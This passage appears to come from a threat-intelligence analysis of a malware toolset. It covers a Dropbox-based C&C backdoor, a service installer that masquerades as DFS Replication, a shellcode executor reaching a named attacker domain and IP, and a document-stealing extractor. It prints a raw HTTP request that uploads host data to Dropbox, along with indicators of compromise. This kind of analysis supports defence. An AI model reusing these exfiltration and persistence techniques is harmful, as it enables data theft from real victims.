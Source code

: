 POST /2/files/upload HTTP/1.1Host: content.dropboxapi.comUser-Agent: Go-http-client/1.1Content-Length: 36Authorization: Bearer [snipped]Content-Type: application/octet-streamDropbox-Api-Arg: {“path”: “/infos/116a0d.txt”,”mode”: “overwrite”,”autorename”: true,”mute”: false,”strict_conflict”: false}Accept-Encoding: gzip
%currentDate% %currentTime%##%hostname%
Afterwards, a C&C request-response loop is started. Based on the response from the C&C server, one of the following commands is executed: download files, upload files, sleep, quit, or execute commands on a command line. See the following diagram for a detailed flow, keep in mind that all download/upload are using the aforementioned Dropbox API:
Figure 2: Overview of detailed execution flow
ServiceInstaller
We assume that this installer is intended to be executed by one of the aforementioned backdoors as it requires command-line parameters for its successful execution:




Switch
Argument


-i 
path of DLL to install as a service


-u
Uninstall a specific service name




At first, security descriptors of both %windir%\system32\ and %windir%\system32\drivers\ changes to allow the current user to copy files to these locations. Then the installer copies a service executable to %windir%\system32\ under a randomly generated name (4 alphanumeric characters).
Depending on whether a service named DFS Replication already exists in 
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost netsvcs,
a new service called DFS Replication (if it does not exist) or IAS Jet Database Access Service %number% is created. More specifically, its parameters are:
Description: “Configures Internet Authentication Service (IAS). If this service is stopped, the remote network access that requires user authentication will be unavailable. If this service is disabled, any services that explicitly depend on it will fail to start or (Retail) Replicates files among multiple PCs keeping them in sync. On Client, it is used to roam folders between PCs; on the server, it is used to provide high availability and local access across a wide area network (WAN). If the service is stopped, file replication does not occur, and the files on the server become out-of-date. If the service is disabled, any services that explicitly depend on it will not start.”DisplayName: DFS Replication/IAS Jet Database Access Service %number%ServiceDll: C:\Windows\system32\<4 random alphanumeric characters>.dll.Tag: 0Security: 0
ShellCodeExecutor
This utility takes hex-encoded shellcode as an argument and then proceeds to execute it. The code responsible for decoding and unpacking can be seen below:
Figure 3: Decoding algorithm and executing decoded payload in allocated memory
While we weren’t able to reconstruct which stage this executor was used, we were able to recover its parameter that corresponds to a hex-encoded metasploit-generated shellcode (reverse HTTP proxy – Github configured to connect to URL oss.chrome-upgrade[.]com (202.59.9[.]58). We suspect that the threat actors used the shellcode just to retrieve and execute a further stage from the C&C server.
DataExtractor 1
This tool can be used to gather potentially sensitive documents with pdf, ppt, xls, and doc file extensions. It recursively scans all connected drives for such documents that were modified in 2020 and later. Gathered documents are packed using Winrar and the archive is protected with a password “zaq1xsw@cde3”. This archive will be then saved to C:\MSBuild\NVIDIA\ under a filename CRYPTO-%computerName%-%number_value%.SYS. This scan is repeated every 20 minutes. If this tool is launched a second time (e.g. after reboot), only documents that were modified in the last 24 hours are gathered.
After each run, a file %windir%\system32\igfxme.vbs is executed. Since this tool did not contain any exfiltration-related functionality, we presume that this script is used to exfiltrate the archive from the computer to a C&C. Unfortunately, we were not able to recover this script.
DataExtractor 2